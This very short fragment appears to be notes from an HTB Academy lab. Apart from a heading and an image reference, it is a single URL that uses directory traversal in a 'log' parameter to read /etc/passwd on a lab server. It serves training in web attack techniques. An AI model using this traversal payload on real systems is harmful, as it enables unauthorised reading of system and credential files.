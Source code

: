 # HTB Academy

[http://83.136.254.199:55501/ilf\_admin/index.php?log=../../../../../etc/passwd](http://83.136.254.199:55501/ilf\_admin/index.php?log=../../../../../etc/passwd)
